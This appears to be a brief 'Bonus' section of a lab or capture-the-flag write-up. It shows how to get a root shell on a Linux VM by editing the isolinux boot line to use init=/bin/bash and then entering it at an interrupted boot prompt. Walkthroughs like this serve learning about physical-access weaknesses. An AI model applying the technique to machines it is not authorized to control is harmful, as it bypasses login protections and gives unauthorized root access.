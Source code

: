 Bonus

### Modify boot

#### Mount iso

#### Edit isolinux.cfg in isolinux folder

#### Concatenate kernel and append

```
/casper/vmlinuz file=/cdrom/preseed/custom.seed boot=casper initrd=/casper/initrd.gz "quiet splash --"
```

#### Edit "quiet splash --" by init=/bin/bash

```
/casper/vmlinuz file=/cdrom/preseed/custom.seed boot=casper initrd=/casper/initrd.gz init=/bin/bash
```

#### Launche the VM and flood the ESC key

It should show 
```
aborted. boot : 
```

#### Now write the modified command

```
/casper/vmlinuz file=/cdrom/preseed/custom.seed boot=casper initrd=/casper/initrd.gz init=/bin/bash
```

#### You are now root !
